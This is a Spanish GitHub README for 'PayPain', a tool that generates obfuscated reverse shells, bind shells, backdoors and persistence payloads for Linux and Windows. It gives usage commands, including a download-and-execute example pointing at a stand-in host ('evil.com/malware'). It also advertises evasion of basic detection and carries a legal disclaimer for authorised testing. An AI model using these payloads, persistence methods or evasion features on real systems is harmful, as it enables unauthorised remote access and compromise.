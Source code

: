 # PayPain

## Generador de Payloads ofuscados

![PayPain Banner](images/banner.png)

## Descripción

PayPain es una herramienta de generación de payloads diseñada para profesionales de seguridad informática. Facilita la creación de diversos tipos de cargas útiles para pruebas de penetración en sistemas Linux y Windows.

## ⚠️ Advertencia Legal

Esta herramienta está diseñada EXCLUSIVAMENTE para fines educativos y pruebas de seguridad autorizadas. El uso indebido de esta herramienta para acceder a sistemas sin autorización es ilegal y puede resultar en consecuencias legales graves. El autor no se hace responsable del mal uso de esta herramienta.

## Características

- Generación de múltiples tipos de payloads (reverse shells, bind shells, backdoors, etc.)
- Soporte para sistemas Linux y Windows
- Ofuscación automática para evadir detecciones básicas
- Opciones de persistencia
- Interfaz de línea de comandos intuitiva

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/Pr1or95/paypain.git
cd paypain

# Instalar dependencias
pip install -r requirements.txt
```

## Uso

### Estructura básica del comando

```bash
python Paypain.py -i <IP> -p <PUERTO> -t <TIPO_PAYLOAD> -s <SISTEMA_OPERATIVO> -o <ARCHIVO_SALIDA>
```

### Ver ayuda

```bash
python Paypain.py --help
```

### Listar payloads disponibles

```bash
# Para Linux
python Paypain.py -l -s linux

# Para Windows
python Paypain.py -l -s windows
```

### Describir un payload específico

```bash
python Paypain.py -d reverse_shell -s linux
```

### Ejemplos de uso

#### Generar un reverse shell para Linux

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t reverse_shell -s linux -o payload.sh
```

#### Generar un backdoor PowerShell para Windows

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t powershell_backdoor -s windows -o payload.ps1
```

#### Generar un payload para descargar y ejecutar un archivo

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t download_execute -s linux -o payload.sh -u http://evil.com/malware
```

## Payloads disponibles

### Linux
- **Reverse_shell**: shell inverso que se conecta a una máquina atacante
- **Bind_shell**: shell que se vincula a un puerto en la máquina objetivo y espera conexiones
- **Download_execute**: Descarga y ejecuta un archivo de una URL remota
- **Python_backdoor**: backdoor en Python que establece una conexión con la máquina atacante
- **PHP_backdoor**: backdoor en PHP que establece una conexión con la máquina atacante
- **Bash_backdoor**: backdoor en Bash que intenta conectarse periódicamente a la máquina atacante
- **Cron_persistence**: establece una tarea cron para ejecutar periódicamente un shell inverso

### Windows
- **Reverse_shell**: shell inverso en PowerShell que se conecta a una máquina atacante
- **Bind_shell**: shell PowerShell que se vincula a un puerto y espera conexiones
- **Download_execute**: descarga y ejecuta un script PowerShell de una URL remota
- **Powershell_backdoor**: backdoor en PowerShell que intenta conectarse periódicamente a la máquina atacante
- **VBS_backdoor**: backdoor en VBScript que ejecuta un payload PowerShell oculto
- **Registry_persistence**: establece persistencia mediante el registro de Windows para ejecutar un payload al inicio de sesión
- **WMI_persistence**: establece persistencia mediante tareas programadas de Windows

## Capturas de pantalla

Generamos un payload de reverse shell para Linux
![Imagen 1](images/img1.png)

Ejecutamos el payload en la máquina víctima
![Imagen 2](images/img2.png)

Recibimos la reverse shell en nuestro sistema, donde previamente nos habíamos puesto en escucha
![Imagen 3](images/img3.png)

## Contribución

Las contribuciones son bienvenidas:

1. Haz un fork del repositorio
2. Crea una nueva rama (`git checkout -b feature/nueva-funcionalidad`)
3. Haz commit de tus cambios (`git commit -am 'Añadir nueva funcionalidad'`)
4. Sube los cambios a tu rama (`git push origin feature/nueva-funcionalidad`)
5. Abre un Pull Request
